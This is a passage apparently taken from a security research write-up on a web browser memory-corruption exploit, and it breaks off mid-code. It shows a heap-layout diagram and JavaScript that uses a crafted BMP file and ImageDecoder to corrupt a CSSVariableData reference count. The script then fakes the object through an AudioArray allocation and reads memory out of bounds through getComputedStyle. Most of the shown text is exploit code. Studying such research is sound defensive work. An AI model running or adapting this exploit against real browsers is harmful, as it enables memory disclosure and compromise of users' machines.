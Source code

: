 ```
|   0xff00   |  0x0000  |F|    "A\x00\x00\x00"      |                   |
+------------+----------+-+-------------------------+ BMP vuln chunk... |
|                "A\x00\x00\x00..."                 |                   |
+---------------------------------------------------+-------------------+
                          |
                          | Call `gc();` and decrease
                          | `ref_count_` (-0xff00)
                          v
+-------------------------+-------------------------+
|       freelist ptr      |    "A\x00\x00\x00"      |
+-------------------------+-------------------------+
|                "A\x00\x00\x00..."                 |
+---------------------------------------------------+
```

Perfect! We can use any object to consume this freelist entry and overwrite
the |length_| property. For this, we will use an AudioArray that we can 
control entirely. AudioArray is also an elastic object that has been used
to exploit another type of UAF previously [13]. 

Now we can OOB read:

```js
fetch("/bad.bmp").then(async response => {
  let rs = getComputedStyle(div0);
  let imageDecoder = new ImageDecoder({
    data: response.body,
    type: "image/bmp"
  });
  increase_refs(0xff02); // overflow will overwrite 0xff02 to 0xff00

  imageDecoder.decode().then(async () => {
    gc(); gc();
    await sleep(2500);
    let ab = new ArrayBuffer(0x600);
    let view = new Uint32Array(ab);

    // fake CSSVariableData
    view[0] = 1; // ref_count
    const newCSSVarLen = 0x19000;
    view[1] = newCSSVarLen | 0x01000000; // length and flags, set is_8bit_
    for (let i = 2; i < view.length; i++)
      view[i] = i;
    await allocAudioArray(0x2000, ab, 1);
    leak();
  })
});

async function leak() {
  console.log("continuing...");
  let div0 = document.getElementById('div0');
  let rs = getComputedStyle(div0);
  let CSSLeak = rs.getPropertyValue(kTargetCSSVar).substring(0x15000 - 8);
  console.log(CSSLeak.length.toString(16));
...
```
